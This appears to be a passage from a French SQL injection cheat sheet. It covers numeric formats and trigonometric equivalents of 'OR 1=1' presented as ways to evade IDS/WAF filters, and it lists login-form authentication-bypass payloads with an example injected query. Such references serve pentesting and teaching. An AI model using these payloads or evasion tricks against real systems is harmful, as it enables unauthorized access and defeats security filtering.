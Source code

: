 **Format numériques valides :**

Chacune de ces techniques peut servir d’évasion d’expressions régulières d’IDS/WAF.

|     |     |
| --- | --- |
| digits | 1337 |
| digits[.] | 1337. |
| digits[.]digits | 13.37 |
| digits[eE]digits | 13e37, 13E37 |
| digits[eE][+-]digits | 13e-37, 13E+37 |
| digits[.][eE]digits | 13.e37 |
| digits[.]digits[eE]digits | 13.3E7 |
| digits[.]digits[eE][+-]digits | 13.3e-7 |
| [.]digits | .1337 |
| [.]digits[eE]digits | .13e37 |
| [.]digits[eE][+-]digits | .13E-37 |

**Expressions mathématiques équivalentes :**

Pour des injections équivalentes au traditionnel « OR 1=1 », les syntaxes suivantes (et dérivées) peuvent être utilisées :

COS(0)=SIN(PI()/2)
COS(@@VERSION)=SIN(@@VERSION+PI()/2)
**Exemples :**
SELECT * FROM Table WHERE data = 3+1337;
**Remarques :**

- Le booléen true équivaut à l’entier 1
- Le booléen false équivaut à l’entier 0

### Injection dans un formulaire de connexion/login

**Pour la requête suivante :**
SELECT * FROM Users WHERE username = 'admin' AND password = '[INJ]';
**Injections :**
' OR 1 -- -
' OR '' = '
' OR 1 = 1 -- -
'='
'LIKE'
'=0--+
**Exemples :**
SELECT * FROM Users WHERE username = 'admin' AND password = '' OR '' = '';

## Commenter la fin d’une requête
